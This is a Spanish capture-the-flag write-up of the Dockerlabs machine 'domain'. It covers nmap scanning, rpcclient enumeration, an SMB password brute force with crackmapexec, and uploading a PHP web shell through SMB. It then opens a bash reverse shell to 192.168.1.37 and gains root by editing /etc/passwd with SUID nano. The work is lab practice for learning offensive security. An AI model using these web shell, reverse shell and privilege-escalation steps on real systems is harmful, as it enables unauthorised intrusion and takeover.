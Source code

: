 Máquina domain


Iniciamos con la rutina de reconocimiento con nmap:

```
# Nmap 7.94SVN scan initiated Thu Apr 18 20:17:52 2024 as: nmap -p- --open -sSCV --min-rate 5000 -vvv -n -Pn -oN Target 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000050s latency).
Scanned at 2024-04-18 20:17:53 CEST for 17s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE     REASON         VERSION
80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: \xC2\xBFQu\xC3\xA9 es Samba?
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.6.2
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.6.2
MAC Address: 02:42:AC:11:00:02 (Unknown)

Host script results:
| smb2-time: 
|   date: 2024-04-18T18:18:06
|_  start_date: N/A
|_clock-skew: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21783/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 58970/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58197/udp): CLEAN (Timeout)
|   Check 4 (port 16713/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

Vemos un http,un servicio smb en el puerto 445 y en el 139

Hacemos un reconocimiento de todo, vamos a empezar por el protocolo http que al parecer nos dice que esta corriendo samba, he probado a fuzzeartanto directorios como subdominios y nada, vamos a ver 
los otros servicios el 139 y el 445

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/f46dfba4-e12c-411b-87bb-9d68db0ca333)

Al no tener absolutamente nada de nada, vamos a utilizar la herramienta rpcclient:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/08e4ea79-65b2-4ca9-8fee-011d30ead24a)

encontramos dos usuarios validos james y bob, como no sabemos la contraseña vamos a ver si con crackmapexec podemos ejecutar una fuerza bruta exitosa:

```
crackmapexec smb 172.17.0.2 -u bob -p /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/a7cca8c9-cbbd-4f31-b195-6f205c9edca5)

La contraseña nos la ha encontrado, asi que vamos a entrar al smb a ver que hay dentro:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/06a6d222-12be-406a-bd0a-91dded953db2)

ya podemos enumerar:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/b288a91f-d4d3-4f3a-8b67-19d08a649930)

Entramos y como podemos ver el html sera el de la página principal, así que si creamos un archivo malicioso y lo metemos en el
smb podemos llamarlo desde la página y entablarnos una reverse shell:

Le voy a meter con el comando put el siguiente archivo llamado cmd.php:

```
<?php
        system($_GET['cmd']);
?>
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/7afc7d38-736c-4e20-a385-19415fc3676c)

ya con ejecución remota de comados, pues vamos a entablarnos la reverse shell:

```
bash -c "bash -i >%26 /dev/tcp/192.168.1.37/443 0>%261"
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/9bf7ae08-9bfc-490b-b541-e5369379c63c)


le metemos el comando: python3 -c 'import pty;pty.spawn("/bin/bash")' y a por el ruteo,

nos metemos en el usuario bob ocn la misma contraseña -> star, sudo -l no funcion, vamos a comprobar los permisos SUID, encontramos que esta nano:

Entonces con nano lo que se puede hacer es:

```
/usr/bin/nano /etc/passwd
```

Si entramos aqui con el nano y le quitamos la x a el usuario root, pues tan solo ponemos su root y nos convertimos en root.

Esta máquina me a parecido interesante por que hacia tiempo que no utilizaba la herramienta rpcclient y ademas nunca habia hecho
una fuerza bruta con crackmapexec a un protocolo smb.

Dificultado 3/5
Diversión 2/5











